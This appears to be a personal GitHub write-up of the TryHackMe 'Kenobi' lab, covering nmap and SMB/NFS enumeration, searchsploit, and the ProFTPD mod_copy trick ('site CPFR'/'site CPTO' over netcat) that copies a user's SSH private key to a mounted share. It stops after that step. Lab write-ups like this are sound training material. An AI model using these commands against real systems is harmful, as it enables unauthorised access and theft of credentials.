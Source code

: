 # Kenobi
My own Writeup of machine Kenobi (Tryhackme)

¡¡¡ IMPORTANT !!!
### First of all, connect to your tryhackme vpn.
¡¡¡ IMPORTANT !!!

1. Scan the machine, i use this command to scan open ports in the machine:

````nmap -T5 -p- -n -v <ip>````
  
![Screenshot_1](https://user-images.githubusercontent.com/80575736/111028536-849d6380-83f7-11eb-8356-e13b67d6fe01.png)

With this information we can show a few open ports, for example port 21 (ftp), port 22 (ssh), port 111 (rpcbind) port 445 (smb), port 139 (NetBios) and port 445 (Shared_folders SMB)

In this machine we have to explotate SMB shared folders port (445), and ftp (21)

2. When we have open ports in the machine, we have to try internal nmap scripts to see a few vulnerabilities. We can try with this:

```nmap --script=vuln <ip> ```

For my i try this command and works better for me:

``` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

![Screenshot_2](https://user-images.githubusercontent.com/80575736/111028824-87995380-83f9-11eb-881f-44023f30b244.png)

This command show the shared folders of the vulnerable machine, and we can watch a share with name "anonymous".

3. Connect with smbclient to see what there is in.

``` smbclient //<ip>/shared_folder```

![Screenshot_3](https://user-images.githubusercontent.com/80575736/111029377-b533cc00-83fc-11eb-8e64-8c7367b52469.png)

To show subfolders and files, we can use command ```ls``` like in linux terminal.

![Screenshot_16](https://user-images.githubusercontent.com/80575736/111029450-ef04d280-83fc-11eb-8ffb-360bad8ad4dd.png)

We see a  intersting file name log.txt

4. Copy the previous file (log.txt) in our machine.

```smbget -R smb://<ip>/shared_folder```
This command copy all folders and files recursively.

![Screenshot_4](https://user-images.githubusercontent.com/80575736/111029700-55d6bb80-83fe-11eb-90cc-44e8729870bc.png)

When we read file log.txt, we can appreciate:
- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

5. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

![Screenshot_5](https://user-images.githubusercontent.com/80575736/111030205-4e64e180-8401-11eb-85a2-7e27491d9d16.png)

This command provide us folder of file systems mounted by clients. in our case /var 

6. We go to search a exploit of the ftp server of the vulnerable machine "proftpd".

``` searchsploit proftpd 1.3.5```

![Screenshot_6](https://user-images.githubusercontent.com/80575736/111030486-cb448b00-8402-11eb-8d99-e29502e59f14.png)

We execute the previous command, and its show three exploits of service "proftpd"


7. Go to connect to ftp server via netcat with this command:

``` nc <ip> <port> ```

![Screenshot_7](https://user-images.githubusercontent.com/80575736/111030610-8a00ab00-8403-11eb-9848-c6991de16fb9.png)

Now we are inside ftp server, and we have to use this command to copy id_rsa to before connect via ssh to gain access with the user Kenobi.

```site CPFR /home/kali/.ssh/id_rsa ```

``` site CPTO /var/tmp/id_rsa```

![Screenshot_8](https://user-images.githubusercontent.com/80575736/111030943-54f55800-8405-11eb-9bd9-4099600dcf03.png)




